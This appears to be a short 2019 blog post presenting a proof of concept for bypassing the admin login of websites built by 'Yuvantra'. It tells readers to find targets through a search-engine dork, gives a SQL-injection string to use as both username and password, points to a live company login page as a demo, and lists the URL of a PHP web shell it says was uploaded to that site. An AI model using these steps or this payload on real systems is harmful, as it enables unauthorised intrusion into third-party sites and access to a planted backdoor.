 ```yaml
---
title: 'Design by Yuvantra Vulnrability bypass admin panel'
date: 2019-09-29T20:33:00+01:00
draft: false
---
```


  
  
Poc:  
\[+\] you can dorking on google or other search engine  
\[+\] dork "Design by Yuvantra pvt ltd" and use your brain :)  
\[+\] admin page : localhost:8080/login  
\[+\] user : '=' 'or'  
Pass: '=' 'or'  
\[+\] you can login dashboard, and whatever..  
\[+\] demo:  
http://www.yuvantra.com/login  
  
Shell uploaded :  
http://www.yuvantra.com/uploads/students/zaen\_umi.php